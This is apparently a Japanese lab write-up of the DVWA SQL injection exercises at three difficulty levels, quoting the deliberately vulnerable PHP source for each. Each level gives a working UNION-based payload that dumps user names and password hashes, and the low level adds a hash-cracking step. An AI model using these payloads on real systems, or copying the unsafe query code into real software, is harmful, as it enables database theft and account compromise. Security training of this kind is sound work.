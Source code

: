 # SQL Injection

<!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->
<details>
<summary>Table of Contents</summary>

- [SQL Injection](#sql-injection)
  - [Low Level](#low-level)
    - [実験結果](#実験結果)
    - [原因](#原因)
  - [Medium Level](#medium-level)
    - [実験結果](#実験結果-1)
    - [原因](#原因-1)
  - [High Level](#high-level)
    - [実験結果](#実験結果-2)
    - [原因](#原因-2)

</details>
<!-- END doctoc generated TOC please keep comment here to allow auto update -->

## Low Level

### 実験結果

以下を UserID に入力する。

```sql
' UNION SELECT user, password from users where '1' = '1
```

### 原因

該当するソースコードは以下になる。

```php
// /var/www/html/vulnerabilities/sqli/source/low.php

<?php

if( isset( $_REQUEST[ 'Submit' ] ) ) {
    // Get input
    $id = $_REQUEST[ 'id' ];

    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Get values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

    mysqli_close($GLOBALS["___mysqli_ston"]);
}

?>
```

これは `$id = $_REQUEST[ 'id' ];` で取得したユーザの入力値をそのままSQLクエリのシングルクォーテーション（`'`）で囲まれた領域に挿入していることが原因である。

つまり `' UNION SELECT user, password from users where '1' = '1` と挿入してしまうと、以下のSQLクエリが構築されてしまい、条件が必ず `TRUE` になってしまうことが原因である。

```sql
SELECT first_name, last_name FROM users WHERE user_id = '' UNION SELECT user, password from users where '1' = '1';
```

これで画面に表示されているハッシュ値を、[Hash Toolkit](https://hashtoolkit.com/decrypt-hash/?hash=5f4dcc3b5aa765d61d8327deb882cf99) などを使用して解読すればパスワードを盗み出すことが可能となる。

## Medium Level

### 実験結果

画面上の UserID に `1` を選択した状態にする。

そのうえでページの検証からソースコードを開き、以下のように改変する。

```html
<select>
  <option value="1 UNION SELECT user, password FROM users WHERE 1=1">
  <!-- other options ... -->
</select>
```

これで `Submit` ボタンを押してリクエストを送信すれば、USERに関する情報が全て取得できる。

### 原因

該当するソースコードは以下になる。

```php
// /var/www/html/vulnerabilities/sqli/source/medium.php
<?php

if( isset( $_POST[ 'Submit' ] ) ) {
    // Get input
    $id = $_POST[ 'id' ];

    $id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);

    $query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query) or die( '<pre>' . mysqli_error($GLOBALS["___mysqli_ston"]) . '</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Display values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

}

// This is used later on in the index.php page
// Setting it here so we can close the database connection in here like in the rest of the source scripts
$query  = "SELECT COUNT(*) FROM users;";
$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
$number_of_rows = mysqli_fetch_row( $result )[0];

mysqli_close($GLOBALS["___mysqli_ston"]);
?>
```

これはHTML上で `<select>` を使用してドロップボックス形式に入力を宣言したうえで、入力された値をエスケープ処理した後で、SQLクエリにそのまま挿入している。

つまりHTTPリクエストを送信する際のリクエストヘッダの内容を書き換えることができれば、SQLインジェクションを実行することができてしまう。

あとは Low レベルで行った手順を続けていけばいい。

## High Level

### 実験結果

入力欄に以下のSQLクエリを入力して送信すれば、

```sql
1' UNION SELECT user, password FROM users WHERE '1'='1'#
```

### 原因

該当するソースコードは以下になる。

```php
// /var/www/html/vulnerabilities/sqli/source/high.php
<?php

if( isset( $_SESSION [ 'id' ] ) ) {
    // Get input
    $id = $_SESSION[ 'id' ];

    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query ) or die( '<pre>Something went wrong.</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Get values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);        
}

?>
```

先ほどと異なる点は、SQLクエリを送信するためにポップアップウィンドウを使用している点と、表示するレコードの数が `LIMIT 1` で1つだけに制限されている点である。

挿入されるSQLクエリの後ろにあるSQLは、コメントアウトすればいいだけである。

